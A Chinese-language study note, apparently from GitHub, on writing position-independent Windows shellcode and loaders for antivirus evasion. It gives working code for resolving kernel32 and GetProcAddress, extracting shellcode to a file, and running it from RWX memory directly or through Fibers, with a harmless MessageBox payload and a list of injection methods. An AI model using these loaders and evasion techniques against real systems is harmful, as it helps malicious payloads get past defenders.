



### windows shellcode与加载器的编写

#### 前言：

​	首先这是失败记录，在实验中总是会在内存加载的时候崩溃，可能是电脑的问题。vs经常报错，恶心了很久（被折磨了一通宵）。以后买了新电脑再试试。

​	如标题所示，这里所关注的是windows下的shellcode免杀，linux似乎更简单点，但是还没接触。windows下肯定是默认能执行exe文件。因此首选的是c语言编写的加载器，其次对我来说是python，因为它能够使用pyinstaller将py文件变成exe文件。其他go、ruby等语言的加载器虽然免杀效果不错（语言小众的感觉），但是不能预先假定目标存在这些环境。


​	2022/1/12 心情很复杂，当测试一晚上发现原来只是一处拼写错误导致的时候很难受。但是改好后，自己的shellcode、shellcodeLoder、以及大佬的各种姿势的启动方式都能正常跑后，很开心。现在0:23，不知道该怎么形容，五味杂陈。


#### 小结

​	从刚接触免杀到写完shellcode和加载器已经过了8天左右了，理论部分还好，实践部分通宵了几个晚上，已经再也不想碰c这种东西了。后续免杀测试部分可能在春节后继续。

[TOC]


#### 参考文章

​	https://paper.seebug.org/1413/

​	https://edu.51cto.com/center/course/lesson/index?id=381129

​	https://xz.aliyun.com/t/10369


#### 目录：

**理论部分：**

1. shellcode是什么
2. shellcode加载器是什么

3. 免杀原理是什么

**实验部分：**

1. 如何编写shellcode
2. 如何编写加载器

**cookie部分：**


#### 1.理论部分

##### 1.1 shellcode是什么

​	先引用大佬的描述：shellcode是一种地址无关代码，只要给他EIP就能够开始运行，由于它不像PE有着复杂的结构，因此可以随意变化和复原，shellcode可使用多种语言进行开发，如需了解可[看这](https://idafchev.github.io/exploit/2017/09/26/writing_windows_shellcode.html#resources)。

​	在本文中，shellcode指的是c程序在编译连接后的二进制程序部分的内容，也就是exe文件中的代码部分。

##### 1.2 shellcode加载器是什么

​	单只有shellcode部分的二进制代码文件是无法执行的，次时我们需要将代码放入一个容器中，然后才能执行。而这个容器就是我们所谓的加载器。加载器可以是任意语言编写的文件，只要它能执行我们的shellcode即可。

##### 1.3  免杀原理

​	首先要认识静态查杀部分，直接引用[大佬](https://xz.aliyun.com/t/10369)的描述

> **1.特征码识别:**
>
> 杀软有自己的病毒库，里面有很多样本，扫描时会抽取扫描对象的一段特征并与病毒库里作比较，如果匹配，那就会认为是病毒。抽取的代码要有适当长度，一方面维持特征代码的唯一性，另一方面又不要有太大的空间与时间的开销。如果一种病毒的特征代码增长一字节，要检测3000种病毒，增加的空间就是3000字节。在保持唯一性的前提下，尽量使特征代码长度短些，以减少空间与时间开销。
>
> 主要扫描的有：
>
> ```
> hash、文件名、函数名、敏感字符串、敏感api等等
> ```
>
> **2.云查杀:**
>
> 云查杀的不同点在于它的病毒库是放在服务器端的，而不是本地客户端，意思是只要联网病毒库就会同步更新，这种病毒库更加强大。
>
> **3.校验和法**
>
> 根据正常文件的内容，计算其校验和，定期不定期的检查文件的校验是否与正常的校验和一样。其实本质还是特征码，万变不离其宗
>
> **4.启发式扫描：**
>
> 但是面对未知的病毒，换个模样杀软就认不出了吗？所以安全厂商研究出了启发式算法
>
> 启发式则是将一类病毒总结后，归纳其特征，其后的演变都为一类病毒，这就是启发式算法。具体启发式算法可以由杀软来定，比如可以使用机器学习把家族病毒聚类，或简单的通过使用通用型yara规则，例如文件大小小于100kb，且没有图标则可以识别为病毒，以此达到查杀病毒。

​	从查杀倒推，因为我们shellcode和加载器都是能够自己编程定制的，因此针对静态查杀的规则总是能有方法绕过去。同时，shellcode和加载器分开了来也能起到一定的免杀作用。


#### 2 实验部分

##### 2.1如何编写shellcode

​	本部分主要参考[视频](https://edu.51cto.com/center/course/lesson/index?id=381129)。首先列出视频中的三个基本原则

1. 避免绝对地址的使用
2. 函数的动态调用
3. kernel32基址的获取

除此外，了解shellcode的编写原则还能去参考这篇[文章](https://ha.cker.in/Article/6948)


​	首先，我们在shellcode编写中所使用的变量不能够是全局变量或者是static指定的静态变量，因为编译链接成pe文件后，它们会被放到rdata字段中，而我们的二进制代码所在的是.text字段，下图是网上找的一个pe文件图。



​	以下面的代码为例开始讲解shellcode的编写

**动态调用**

​	一般直接include后用函数名调用的话，编译器和连接器会帮你将其修改为对应的绝对地址（个人理解，应该就是函数相对exe文件中的相对地址），但是shellcode中你不能假定加载器会#include你所要的函数库，同时也无法判断加载器导入的函数的地址是多少。

​	因此我们要动态的获取函数的地址。

​	ps:列一下我的环境：win10，vs2022社区版。

```c
#include<Windows.h>
int dmain() {
	MessageBoxA(NULL, "fuck_c", "vs_idio", MB_OK);
	return 0;
}
```

按住ctrl再点击MessageBoxA能进入函数的声明部分。

```c
WINUSERAPI
int
WINAPI
MessageBoxA(
    _In_opt_ HWND hWnd,
    _In_opt_ LPCSTR lpText,
    _In_opt_ LPCSTR lpCaption,
    _In_ UINT uType);
```

我们将其修改如下

```c
typedef int (WINAPI* dd_MessageBoxA)(
			_In_opt_ HWND hWnd,
			_In_opt_ LPCSTR lpText,
			_In_opt_ LPCSTR lpCaption,
			_In_ UINT uType);
```

然后动态获取函数的地址（非动态就是编译器直接写入了MessageBoxA的绝对地址在代码中），并且使用。

```c
dd_MessageBoxA box523;
//获取MessageBoxA的地址
box523 = (dd_MessageBoxA)GetProcAddress(LoadLibraryA("user32.dll"), "MessageBoxA");
box523(NULL, "fuck_c", "vs_idio", MB_OK);
```
效果和`MessageBoxA(NULL, "fuck_c", "vs_idio", MB_OK);`一样。


再用printf做个例子

```c
	typedef int (__CRTDECL* x_printf)(
		_In_z_ _Printf_format_string_ char const* const _Format,
		...);
	x_printf f_printf;
	f_printf = (x_printf)GetProcAddress(LoadLibraryA("msvcrt.dll"), "printf");
	f_printf("垃圾vscode");
```


**kernel32基址获取函数**

​	kernel32会在程序加载时自动加载，如下图，无论是否使用了其他dll。获得基址的代码当成魔法咒语对待就好了。



```c
__declspec(naked) DWORD getKernel32() {
	__asm {
		mov eax, fs: [30h]
		mov eax, [eax + 0ch]
		mov eax, [eax + 14h]
		mov eax, [eax]
		mov eax, [eax]
		mov eax, [eax + 10h]
		ret
	}
}
```

通过kenel32获取GetProcAddress的地址

```c
FARPROC _GetProcAddress(HMODULE hModuleBase) {
	PIMAGE_DOS_HEADER lpDosHeader = (PIMAGE_DOS_HEADER)hModuleBase;
	PIMAGE_NT_HEADERS32 lpNtHeader = (PIMAGE_NT_HEADERS)((DWORD)hModuleBase + lpDosHeader->e_lfanew);
	if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size) {
		return NULL;
	}
	if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress) {
		return NULL;
	}
	PIMAGE_EXPORT_DIRECTORY lpExports = (PIMAGE_EXPORT_DIRECTORY)((DWORD)hModuleBase+(DWORD)lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PDWORD lpdwFunName = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNames);
	PWORD lpwOrd = (PWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNameOrdinals);
	PDWORD lpdwFunAddr = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfFunctions);

	DWORD dwLoop = 0;
	FARPROC pRet = NULL;
	for (; dwLoop <= lpExports->NumberOfNames - 1;dwLoop++) {
		char* pFunName = (char*)(lpdwFunName[dwLoop] + (DWORD)hModuleBase);
		if (
			pFunName[0] == 'G' &&
			pFunName[1] == 'e' &&
			pFunName[2] == 't' &&
			pFunName[3] == 'P' &&
			pFunName[4] == 'r' &&
			pFunName[5] == 'o' &&
			pFunName[6] == 'c' &&
			pFunName[7] == 'A' &&
			pFunName[8] == 'd' &&
			pFunName[9] == 'd' &&
			pFunName[10] == 'r' &&
			pFunName[11] == 'e' &&
			pFunName[12] == 's' &&
			pFunName[13] == 's'
			) {
			pRet = (FARPROC)(lpdwFunAddr[lpwOrd[dwLoop]] + (DWORD)hModuleBase);
			break;
		}
	}
	return pRet;
}
```

使用(下面的f_printf是上面动态获取的)，之后f_GetProcAddress就和原本的GetProcAddress一样使用了。

```c
HMODULE x_LoadLibraryA = (HMODULE)getKernel32();
typedef FARPROC (WINAPI* x_GetProcAddress)(
			_In_ HMODULE hModule,
			_In_ LPCSTR lpProcName
		);
x_GetProcAddress f_GetProcAddress;
f_GetProcAddress = (x_GetProcAddress)_GetProcAddress(x_LoadLibraryA);


```

**函数编译顺序规则**

	1. 同一cpp文件中，先定义的在前。注意并非先声明，而是定义。
	2. 不同cpp中，在.vcxproj后缀的文件中（一般在项目同名目录下）的\<ItemGroup\>字段李的文件排序决定。

```
  <ItemGroup>
    <ClCompile Include="0.entry.cpp" />
    <ClCompile Include="a.start.cpp" />
    <ClCompile Include="z.end.cpp" />
  </ItemGroup>
```

##### 2.2正式编写shellcode

​	编写shellcode最重要的一点就是vs的相关配置要正确，不然怎么死的都不知道（优化一定要关）。配置可以看本文件夹下的vs踩坑文档。

（编程10分钟，调bug10小时，麻了）

​	0.entry.cpp

main函数的入口，动态调用了一个printf来debug，因为改了入口点，无法直接使用printf。

```c
#include"header.h"

int entry_main() {
	ShellcodeStart();
	CreateShellcode();
	return 0;
}

void CreateShellcode() {
	typedef int (__CRTDECL* xx_printf)(
		_In_z_ _Printf_format_string_ char const* const _Format,
		...);
	xx_printf f_printf;
	f_printf = (xx_printf)GetProcAddress(LoadLibraryA("msvcrt.dll"), "printf");
	f_printf("垃圾vscode\n");
	f_printf("垃圾vscode\n");
	f_printf("垃圾vscode\n");

	HANDLE hbin = CreateFileA("sh.bin", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, 0, NULL);
	if (hbin == INVALID_HANDLE_VALUE) {
		f_printf("create file error:%d\n", GetLastError());
		return;
	}
	DWORD dwSize = (DWORD)ShellcodeEnd - (DWORD)ShellcodeStart;
	DWORD dwWriten;
	WriteFile(hbin, ShellcodeStart, dwSize, &dwWriten, NULL); //重点语句
	CloseHandle(hbin);

}

```

下面这句是将ShellcodeStart函数开始的二进制文件内容写入到文件中。

```c
WriteFile(hbin, ShellcodeStart, dwSize, &dwWriten, NULL); //重点语句
```


a.start.cpp

这里是我们shellcode的内容，注意定义顺序。

```c
#include "header.h"

__declspec(naked) void ShellcodeStart() {
	__asm {
		jmp ShellcodeEntry
	}
}

__declspec(naked) DWORD getKernel32() {
	__asm {
		mov eax, fs: [30h]
		mov eax, [eax + 0ch]
		mov eax, [eax + 14h]
		mov eax, [eax]
		mov eax, [eax]
		mov eax, [eax + 10h]
		ret
	}
}

FARPROC _GetProcAddress(HMODULE hModuleBase) {
	PIMAGE_DOS_HEADER lpDosHeader = (PIMAGE_DOS_HEADER)hModuleBase;
	PIMAGE_NT_HEADERS32 lpNtHeader = (PIMAGE_NT_HEADERS)((DWORD)hModuleBase + lpDosHeader->e_lfanew);
	if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].Size) {
		return NULL;
	}
	if (!lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress) {
		return NULL;
	}
	PIMAGE_EXPORT_DIRECTORY lpExports = (PIMAGE_EXPORT_DIRECTORY)((DWORD)hModuleBase + (DWORD)lpNtHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
	PDWORD lpdwFunName = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNames);
	PWORD lpwOrd = (PWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfNameOrdinals);
	PDWORD lpdwFunAddr = (PDWORD)((DWORD)hModuleBase + (DWORD)lpExports->AddressOfFunctions);

	DWORD dwLoop = 0;
	FARPROC pRet = NULL;
	for (; dwLoop <= lpExports->NumberOfNames - 1; dwLoop++) {
		char* pFunName = (char*)(lpdwFunName[dwLoop] + (DWORD)hModuleBase);
		if (
			pFunName[0] == 'G' &&
			pFunName[1] == 'e' &&
			pFunName[2] == 't' &&
			pFunName[3] == 'P' &&
			pFunName[4] == 'r' &&
			pFunName[5] == 'o' &&
			pFunName[6] == 'c' &&
			pFunName[7] == 'A' &&
			pFunName[8] == 'd' &&
			pFunName[9] == 'd' &&
			pFunName[10] == 'r' &&
			pFunName[11] == 'e' &&
			pFunName[12] == 's' &&
			pFunName[13] == 's'
			) {
			pRet = (FARPROC)(lpdwFunAddr[lpwOrd[dwLoop]] + (DWORD)hModuleBase);
			break;
		}
	}
	return pRet;
}

void ShellcodeEntry() {
	//动态调用GetProcAddress
	typedef FARPROC(WINAPI* x_GetProcAddress)(_In_ HMODULE hModule,_In_ LPCSTR lpProcName);
	x_GetProcAddress f_GetProcAddress = (x_GetProcAddress)_GetProcAddress((HMODULE)getKernel32());

	//动态调用LoadLibraryA
	char strLoadLibraryA[] = { 'L','o','a','d','L','i','b','r','a','r','y','A',0};
	typedef HMODULE(WINAPI* x_LoadLibraryA)(_In_ LPCSTR lpLibFileName);
	x_LoadLibraryA f_LoadLibraryA = (x_LoadLibraryA)f_GetProcAddress((HMODULE)getKernel32(), strLoadLibraryA);


	typedef int (WINAPI* dd_MessageBoxA)(
		_In_opt_ HWND hWnd,
		_In_opt_ LPCSTR lpText,
		_In_opt_ LPCSTR lpCaption,
		_In_ UINT uType);
	char strUser32[] = { 'u','s','e','r','3','2','.','d','l','l',0};
	char strMessageBoxA[] = { 'M','e','s','s','a','g','e','B','o','x','A',0};
	char strfuck_c[] = { 'f','u','c','k','_','c',0};
	char strvs_idio[] = { 'v','s','_','i','d','i','o',0};
	dd_MessageBoxA box523;
	box523 = (dd_MessageBoxA)f_GetProcAddress(f_LoadLibraryA(strUser32), strMessageBoxA);
	box523(NULL, strfuck_c, strvs_idio, MB_OK);
	box523(NULL, strfuck_c, strvs_idio, MB_OK);
	box523(NULL, strfuck_c, strvs_idio, MB_OK);

}
```

完美



z.end.cpp

```c
#include"header.h"

void ShellcodeEnd() {

}

```


##### 2.3编写shellcode加载器

简单的直接加载

```c
#include<stdio.h>
#include<stdlib.h>
#include<windows.h>
int main(int argc, char* argv[])
{
    HANDLE hFile = CreateFileA(argv[1], GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Open  File Error!%d\n", GetLastError());
        return -1;
    }
    DWORD dwSize;
    dwSize = GetFileSize(hFile, NULL);

    LPVOID lpAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (lpAddress == NULL)
    {
        printf("VirtualAlloc error:%d\n", GetLastError());
        CloseHandle(hFile);
        return -1;

    }
    DWORD dwRead;
    ReadFile(hFile, lpAddress, dwSize, &dwRead, 0);
    
    __asm
    {
        call lpAddress;

    }
    _flushall();
    
    
    system("pause");
    return 0;
}
```

加载器主要就是用来执行shellcode，有许多种加载方式，参考[文章](https://paper.seebug.org/1413/)

> [5.加载方式](https://paper.seebug.org/1413/#5)
>
> - 直接加载类
>   - [CreateThreadpoolWait加载](https://paper.seebug.org/1413/#createthreadpoolwait)
>   - [Fiber加载](https://paper.seebug.org/1413/#fiber)
>   - [NtTestAlert加载](https://paper.seebug.org/1413/#nttestalert)
>   - [SEH异常加载](https://paper.seebug.org/1413/#seh)
>   - [TLS回调加载](https://paper.seebug.org/1413/#tls)
>   - [动态加载](https://paper.seebug.org/1413/#_2)
>   - [动态加载plus](https://paper.seebug.org/1413/#plus)
>   - [系统call加载](https://paper.seebug.org/1413/#call)
> - 注入类
>   - [APC注入](https://paper.seebug.org/1413/#apc)
>   - [Early Brid APC注入](https://paper.seebug.org/1413/#early-brid-apc)
>   - [NtCreateSection注入](https://paper.seebug.org/1413/#ntcreatesection)
>   - [入口点劫持注入](https://paper.seebug.org/1413/#_4)

去文章中的github查看源码，简单地对其转换即可在我们的加载器中使用了。如：

源码Fiber.cpp

```c
#include"..\public.hpp"


int APIENTRY wWinMain(_In_ HINSTANCE hInstance, _In_opt_ HINSTANCE hPrevInstance, _In_ LPWSTR    lpCmdLine, _In_ int       nCmdShow)
{
	//1.Get shellcode and shellcodesize from Resource by ID
	UINT shellcodeSize = 0;
	unsigned char *shellcode = GetShellcodeFromRes(100, shellcodeSize);
	if (shellcode == nullptr)
	{
		return 0;
	}
	//2.Get shellcode memory
	LPVOID Memory = VirtualAlloc(NULL, shellcodeSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, shellcode, shellcodeSize);
	//3.Execute shellcode
	PVOID mainFiber = ConvertThreadToFiber(NULL);
	PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)Memory, NULL);
	SwitchToFiber(shellcodeFiber);
	DeleteFiber(shellcodeFiber);
	return 0;
}
```

我们修改后的shellcodeLoder

```c
#include<stdio.h>
#include<stdlib.h>
#include<windows.h>
int main(int argc, char* argv[])
{
    HANDLE hFile = CreateFileA(argv[1], GENERIC_READ, 0, NULL, OPEN_ALWAYS, 0, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Open  File Error!%d\n", GetLastError());
        return -1;
    }
    DWORD dwSize;
    dwSize = GetFileSize(hFile, NULL);

    LPVOID lpAddress = VirtualAlloc(NULL, dwSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (lpAddress == NULL)
    {
        printf("VirtualAlloc error:%d\n", GetLastError());
        CloseHandle(hFile);
        return -1;

    }
    DWORD dwRead;
    ReadFile(hFile, lpAddress, dwSize, &dwRead, 0);
    

    PVOID mainFiber = ConvertThreadToFiber(NULL);
    PVOID shellcodeFiber = CreateFiber(NULL, (LPFIBER_START_ROUTINE)lpAddress, NULL);
    SwitchToFiber(shellcodeFiber);
    DeleteFiber(shellcodeFiber);

    system("pause");
    return 0;
}
```

